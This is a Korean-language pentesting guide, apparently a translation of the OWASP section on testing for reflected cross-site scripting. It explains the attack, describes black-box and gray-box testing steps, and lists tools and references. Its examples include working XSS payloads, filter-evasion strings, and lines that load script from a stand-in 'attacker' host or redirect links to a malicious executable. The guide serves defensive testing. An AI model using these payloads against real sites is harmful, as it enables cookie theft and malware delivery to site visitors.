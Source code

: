 ============================================================================================
OTG-INPVAL-001
============================================================================================

|

반사형 크로스 사이트 스크립팅 테스트

|

개요
============================================================================================

반사형 크로스 사이트 스크립팅은 공격자가 HTTP 응답 데이터 안에 브라우저 실행 코드를
삽입할 때 발생합니다.
삽입 공격은 그 자신이 어플리케이션 안에 저장되지 않을 뿐아니라 지속되지 않고, 
악의적으로 조작한 링크 또는 웹 페이지에 접근하는 사용자만 영향을 줍니다.
공격 문자열은 조작한 URI 또는 HTTP 파라미터의 일부에 포함되어, 
어플리케이션에서 부적절하게 처리되어 피해자에게 리턴됩니다.

반사형 XSS는 전체적인 XSS 공격 중 가장 빈번한 공격 형태입니다.
반사형 XSS 공격은 지속적이지 않은 XSS 공격으로 잘 알려져 있고, 공격 페이로드는
싱글 요청 및 응답을 통해 실행되고 전송됩니다.
그래서, 첫번째 순서 또는 타입 1 XSS라고도 불립니다.  

웹 어플리케이션이 해당 공격 형태에 취약할 때, 클라이언트로 요청을 통해 
전송이 확인되지 않은 입력을 돌려보낼 것입니다.

The common modus operandi of the attack includes a design step, in which the 
attacker creates and tests an offending URI, a social engineering step, in
which she convinces her victims to load this URI on their browsers, and the 
eventual execution of the offending code using the victim’s browser.

일반적으로 공격자 코드는 자바스크립트 언어로 쓰여져 있지만, 그 외 스크립팅
언어도 종종 사용됩니다.(ActionScript, VBScript)
공격자는 일반적으로 키 로거 설치, 피해자 쿠키 탈취, 클립보드 탈취 수행,
또는 페이지 컨텐츠 교체를 위해 이 취약점을 이용합니다.

XSS 취약점을 막기 가장 어려운 부분은 적절한 문자 인코딩입니다.
일부 경우, 웹 서버 또는 웹 어플리케이션은 문자의 일부 인코딩을 
필터링할 수 없습니다. 
그래서, 웹 어플리케이션은 **<script>**를 필터링할 수 있지만, 
간단한 인코딩 태그를 포함한 **%3cscript%3e**를 
필터링하지 않을 수 있습니다.

|

테스트 방법
============================================================================================

|

Black Box testing
-----------------------------------------------------------------------------------------

블랙 박스 테스트는 최소한 3가지 과정을 포함해야합니다.

(1) 입력 벡터 탐지.
침투 테스터는 각각의 웹 페이지에서 모든 웹 어플리케이션의 사용자 정의 변수와 
그들이 입력되는 방법을 확인해야 합니다.
이것은 HTTP 파라미터, POST 데이터, 숨겨진 form 필드 값, 그리고 미리 정의된 radio
또는 selection 값과 같은 숨겨지거나 명백하지 않은 입력을 포함합니다.
일반적으로 브라우저 내에 HTML 에디터 또는 웹 프록시는 숨겨진 변수를 보는 데 사용할 
수 있습니다.

(2) 잠재적인 취약점을 탐지하기 위해 각각의 입력 벡터 분석.
XSS 취약점을 탐지하기 위해, 침투 테스터는 각각의 입력 벡터에 특별하게 조작한 입력 
데이터를 사용할 것입니다.
그러한 입력 데이터는 일반적으로 해롭지 않지만, 취약점이 나타난 웹 브라우저로 부터
응답 데이터가 트리거됩니다.
침투 테스트 데이터는 웹 어플리케이션 퍼저, 알려진 공격 문자열 리스트 또는 수동으로
생성될 수 있습니다.

입력 데이터 예제

.. code-block:: html

    <script>alert(123)</script>

.. code-block:: html

    "><script>alert(document.cookie)</script>

더 자세한 목록은 XSS Filter Evasion Cheat Sheet을 참고

(3) 이 전 과정에서 시도된 입력값으로, 침투 테스터는 결과를 분석할 수 있습니다. 
그리고, 웹 어플리케이션의 보안에 실제 영향을 주는 취약점을 나타내는 경우를 결정합니다.
이것은 HTML 웹 페이지 결과와 침투테스트 입력 검색 테스트가 요구됩니다.
발견되면, 침투 테스터는 인코딩된 것, 대체된 것, 또는 필터링 된 것에 대해 적합하지 않은 
특수 문자를 식별합니다.
필터링 되지 않은 취약한 특수 문자 집합은 HTML의 섹션 컨텍스트에 따라 달라집니다.

모든 HTML 특수 문자가 HTML 엔티티로 교체되는 지 식별합니다.
식별할 키 HTML 엔티티

.. code-block:: html

    > (초과)
    < (미만)
    & (앰퍼센트)
    ' (싱글 쿼트)
    " (더블 쿼트)

그러나, 엔티티의 전체 리스트는 HTML 과 XML 규격에 정의되어 있습니다. 
Wikipedia에 완벽한 reference를 가지고 있습니다.

HTML 액션 또는 자바스크립트 코드의 컨텍스트에서 다른 특수 문자 설정은 
취소, 암호화, 대체, 필터링을 해야할 것입니다.

.. code-block:: html

    \n (new line)
    \r (carriage return)
    \' (싱글 쿼트)
    \" (더블 쿼트)
    \\ (백슬래쉬)
    \uXXXX (unicode 값)

|

Example 1
-------------------------------------------------------------------------------------------

예를 들어, "Welcome %username%"를 출력하는 사이트가 있다고 합시다. 그리고,
다운로드 링크가 있습니다.

침투 테스터는 모든 데이터 입력 포인트는 XSS 공격이 발생할 수 있음을 의심해야 합니다.
그것을 분석하기 위해, 침투 테스터는 사용자 변수를 실행하고 취약점을 트리거 합니다.

다음 링크로 클릭하고 상황을 확인해봅시다.

.. code-block:: html

    http://example.com/index.php?user=<script>alert(123)</script>

만약 필터링이 없다면 다음 팝업이 결과로 발생될 것입니다.

이것은 XSS 취약점이 있다는 걸 의마하고, 침투 테스터의 링크를 클릭한다면
모든 사람의 브라우저에 테스터가 선택한 코드를 실행 할 수 있다는 걸 나타냅니다.

|

Example 2
-------------------------------------------------------------------------------------------

.. code-block:: html

    http://example.com/index.php?user=<script>window.onload=
    function() {var AllLinks=document.getElementsByTagName("a");
    AllLinks[0].href="http://badexample.com/malicious.exe";}</script>



|

Example 3
-------------------------------------------------------------------------------------------

.. code-block:: html

    <input type="text" name="state" value="INPUT_FROM_USER">

.. code-block:: html

    "onfocus="alert(document.cookie)

|

Example 4
-------------------------------------------------------------------------------------------

.. code-block:: html

    "><script>alert(document.cookie)</script>

.. code-block:: html

    "%3cscript%3ealert(document.cookie)%3c/script%3e


|

Example 5
-------------------------------------------------------------------------------------------

.. code-block:: html

    <scr<script>ipt>alert(document.cookie)</script>

|

Example 6
-------------------------------------------------------------------------------------------

.. code-block:: php

    <?
        $re = "/<script[^>]+src/i";

        if (preg_match($re, $_GET['var']))
        {
            echo "Filtered";
            return;
        }
        echo "Welcome ".$_GET['var']." !";
    ?>

.. code-block:: html

    <script src="http://attacker/xss.js"></script>

.. code-block:: html

    http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>

|

Example 7
-------------------------------------------------------------------------------------------

.. code-block:: html

    http://example/page.php?param=<script>[...]</script>


.. code-block:: html

    http://example/page.php?param=<script&param=>[...]</&param=script>


|

Gray Box testing
-------------------------------------------------------------------------------------------

Gray Box testing is similar to Black box testing. In gray box testing,
the pen-tester has partial knowledge of the application. In
this case, information regarding user input, input validation controls,
and how the user input is rendered back to the user might be
known by the pen-tester.

If source code is available (White Box), all variables received from
users should be analyzed. Moreover the tester should analyze any
sanitization procedures implemented to decide if these can be circumvented.

|

Tools
============================================================================================

- PHP Charset Encoder(PCE): http://yehg.net/encoding/
- HackVertor: http://www.businessinfo.co.uk/labs/hackvertor/
- WebScarab 
- Burp Proxy
- OWASP Zed Attack Proxy (ZAP)
- XSS-Proxy: http://xss-proxy.sourceforge.net/ 
- ratproxy: http://code.google.com/p/ratproxy/
- OWASP Xenotix XSS Exploit Framework

|

References
============================================================================================

OWASP Resources
--------------------------------------------------------------------------------------------

- XSS Filter Evasion Cheat Sheet

Books
--------------------------------------------------------------------------------------------

- Joel Scambray, Mike Shema, Caleb Sima - “Hacking Exposed Web Applications”, Second Edition, McGraw-Hill, 2006 - ISBN 0-07-226229-0
- Dafydd Stuttard, Marcus Pinto - “The Web Application’s Handbook - Discovering and Exploiting Security Flaws”, 2008, Wiley, ISBN 978-0-470-17077-9
- Jeremiah Grossman, Robert “RSnake” Hansen, Petko “pdp” D. Petkov, Anton Rager, Seth Fogie - “Cross Site Scripting Attacks: XSS Exploits and Defense”, 2007, Syngress, ISBN-10: 1-59749-154-3

Whitepapers
--------------------------------------------------------------------------------------------

- CERT - Malicious HTML Tags Embedded in Client Web Requests: Read
- Rsnake - XSS Cheat Sheet: Read
- cgisecurity.com - The Cross Site Scripting FAQ: Read
- G.Ollmann - HTML Code Injection and Cross-site scripting: Read
- A. Calvo, D.Tiscornia - alert(‘A javascritp agent’): Read ( To be published )
- S. Frei, T. Dübendorfer, G. Ollmann, M. May - Understanding the Web browser threat: Read

|